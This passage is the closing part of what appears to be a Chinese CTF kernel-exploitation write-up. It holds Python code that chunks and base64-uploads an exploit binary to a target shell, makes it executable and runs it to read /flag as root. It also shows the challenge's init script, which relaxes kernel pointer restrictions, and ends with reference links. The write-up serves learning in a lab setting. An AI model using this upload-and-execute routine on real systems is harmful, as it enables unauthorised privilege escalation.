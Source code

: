 ```py

def upload(r):
    p = log.progress('[+] Uploading')

    with open('pwn', 'rb') as f:
        data = f.read()
    encoded = base64.b64encode(data)

    for i in range(0, len(encoded), 300):
        p.status('%d / %d' % (i, len(encoded)))
        exec_cmd('echo \"%s\" >> pwn_enc' % (encoded[i:i+300]))

    exec_cmd('cat pwn_enc | base64 -d > pwn')   
    #exec_cmd('unzip pwn.zip') 
    exec_cmd('chmod +x pwn')

    p.success()

def get_root(r):
    r.sendline('./pwn')
    r.sendline('cat /flag')

def exploit(r):
    gen_bin()
    upload(r)
    get_root(r)
    r.interactive()
    return

if __name__ == '__main__':
    r.recvuntil('$ ')
    print '[+] Linux is running ...'
    exploit(r)

```
### 补充 启动脚本注入办法
rcS 位于 etc/init.d/ 中，内容如下：

```sh
#!/bin/sh

mount -t proc none /proc
mount -t devtmpfs none /dev
mkdir /dev/pts
mount /dev/pts

insmod /home/pwn/babyhacker.ko
chmod 644 /dev/babyhacker
echo 0 > /proc/sys/kernel/dmesg_restrict
echo 0 > /proc/sys/kernel/kptr_restrict

cd /home/pwn
chown -R root /flag
chmod 400 /flag


chown -R 1000:1000 .
setsid cttyhack setuidgid 1000 sh   #打开 shell ，进行交互 [A]

umount /proc
poweroff -f

```


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png